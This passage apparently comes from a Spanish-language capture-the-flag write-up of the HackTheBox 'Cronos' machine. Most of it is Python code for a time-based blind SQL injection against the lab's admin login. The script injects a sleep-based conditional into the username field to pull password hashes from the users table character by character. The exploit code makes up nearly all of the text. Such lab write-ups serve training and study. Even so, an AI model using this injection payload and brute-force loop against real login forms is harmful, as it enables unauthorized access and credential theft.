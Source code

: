 ```python

                if time_end - time_start > 5:
                    column_name += character
                    p2.status(column_name)
                    break
            break
        table_name += " - "

if __name__ == '__main__':

    makeRequest()
```

Ahora conocemos las columnas, vamos a por las data.

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")

    password = ""

    for user in range(0, 4):
        for position in range(1, 50):
            for character in s:
                p1.status("Posicion numero %d de la extraccion de password del usuario admin | Caracter %c" % (position, character))
                post_data = {
                    'username': "admin' and if(substr((select password from users limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (user, position, character),
                    'password': 'admin'
                }

                time_start = time.time()
                r = requests.post(login_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    password += character
                    p2.status(password)
```